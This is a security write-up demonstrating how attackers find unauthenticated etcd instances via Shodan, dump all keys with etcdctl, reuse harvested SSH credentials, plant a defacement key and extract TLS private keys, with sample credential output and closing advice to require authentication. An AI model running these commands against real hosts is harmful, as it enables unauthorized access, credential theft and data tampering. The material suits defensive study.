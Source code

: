 # PoC: Hacking Systems via Exposed ETCD Instances

[*Etcd*](https://github.com/etcd-io/etcd) is an open-source distributed key-value store that provides a reliable way to store data across a cluster of machines.  
It's often used as a foundational component in distributed systems, serving as a distributed coordination service for managing configurations, maintaining state, and facilitating communication between different parts of a distributed system.  

Originally developed by CoreOS, etcd is written in Go and uses the **Raft consensus algorithm** to ensure consistency and fault-tolerance.  
It's designed to be highly available, durable, and scalable, making it suitable for use in production environments where reliability and consistency are crucial.  

Some common use cases for etcd include service discovery, leader election, configuration management, and coordination between distributed components.  
It's widely used in container orchestration systems like **Kubernetes**, where it helps manage cluster state and configuration data for containers and their applications.  

It is not uncommon to encounter instances of etcd publicly exposed and lacking authentication measures.  
In such cases, malevolent actors may exploit the API using tools like curl or, preferably, [*etcdctl*](https://github.com/etcd-io/etcd/blob/main/etcdctl/README.md), to perform malicious operations. Here is an example of a real-world scenario.  

## The Scenario
A malicious actor is probing exposed services on [*Shodan*](https://www.shodan.io/) with the following simple query: `etcd`.  
After several attempts, they discover an instance of etcd without authentication and attempt to list the *keys/values* using the following command:  
```bash
export ETCDCTL_ENDPOINTS="http://$EXPOSED_IP:2379" \
&& export ETCDCTL_API=3 \
&& etcdctl get --prefix ""
```  

Possible Output:  

```bash
/apis/url/
https://my.api.com/v1/users/  

apis/token/
wBtkA97eCyqPfQWtGBXf35T5AYbAuKGrQ1Ifq6wgzwjhZXtr87yQDgokSjfiVCVI  

/ssh/user/
system  

/ssh/pass/
P4SsW0rd_+^"!
```  

> Note  
> the attacker can also list all the etcd peers with this command: `etcdctl member list`  


It's worth noting that, at this juncture, an attacker could potentially inflict damage on the system by deleting and/or modifying the values of the etcd keys.  
In this specific scenario, if the target server also exposes SSH, the attacker might also attempt to gain access using the values of the keys */ssh/user/* and */ssh/pass/*:  

```bash
ssh system@$EXPOSED_IP 
system password:  P4SsW0rd_+^"!
```   

The attacker can also add a new key value:  
```bash
etcdctl put rooted P4wn3D!🖕
```  

or retrieve etcd users and roles:  
```bash
etcdctl user list; etcdctl role list
```  

There have also been instances where [*PostgreSQL*](https://www.postgresql.org/) configurations were stored in one key in etcd, and its credentials in another.  
In that particular scenario, PostgreSQL was also exposed as a service on the server, allowing us to query a list of tables and all the data contained within them.  
Furthermore, we discovered wildcard certificates for the entire domain of a company, intentionally redacted and obscured as follows:  

```bash
/apisix/ssl/982578101
{"id":"423764178751193820","create_time":1662112733,"update_time":1689821613,"cert":"-----BEGIN CERTIFICATE-----\nMIIGLDCCBRSgAwIBAgIQCJY\n-----END CERTIFICATE-----\n-----BEGIN CERTIFICATE-----\nMITqCwtukZ7u9VLL3JAq3Wdy2moKLvvC8tVmRzkAe\n0xQCkRKIjbBG80MSyDX/R4uYgj6ZiNT/Zg6GI6RofgqgpDdssLc0XIRQEotxIZcK\nzP3pGJ9FCbMHmMLLyuBd+uCWvVcF2ogYAawufChS/PT61D9rqzPRS5I2uqa3tmIT\n44JhJgWhBnFMb7AGQkvNq9KNS9dd3GWc17H/dXa1enoxzWjE0hBdFjxPhUb0W3wi\n8o34/m8Fxw==\n-----END CERTIFICATE-----\n","key":"-----BEGIN RSA PRIVATE KEY-----\nMIIEowIBAAKCAQEAzF/2R4nLsR8JCsX3Pl1kAML/zy0fmBFRXhPWmE7SGYoiWciq\niIalocl4DM7b5KEk5XwsFdMIEovyy0fgTOhquBwI+t35v7BN5b/BV/zNXHlmqqSs\nCITYs+C/7Ez6C0rsC7pyAmOUaAat4FsaSzvm/Z84s2qwtdejcwnv\n-----END RSA PRIVATE KEY-----\n",
"snis":["*.company.com","company.com"],"status":1,"validity_start":1689638400,"validity_end":1723593599}
```  

These are likely SSL/TLS certificates for [*Apache APISIX*](https://github.com/apache/apisix).  
APISIX is an open-source, cloud-native microservices API gateway that it is used for managing and securing (sigh 😔) APIs.  

Here is a list of attacks that a threat actor can probably implement with access to such certificates:  
- **Man-in-the-Middle (MitM) Attacks**
- **Data Interception**
- **Traffic Redirection**
- **Session Hijacking**
- **SSL Stripping**
- **Impersonation Attacks**
- **Replay Attacks**

Keep in mind that it is rare to encounter exposed instances of etcd containing keys with this type of sensitive data, but it has occurred in the past following some reconnaissance efforts.  


This scenario serves as a [*yet another reminder*](../04-04-24/kubernetes.md) to consistently implement robust authentication mechanisms for our systems and to refrain from exposing them to the entire world unless absolutely necessary (which, in 99.99% of cases, it is not).  


<br>  


- [Back to main page](../../../index.md)  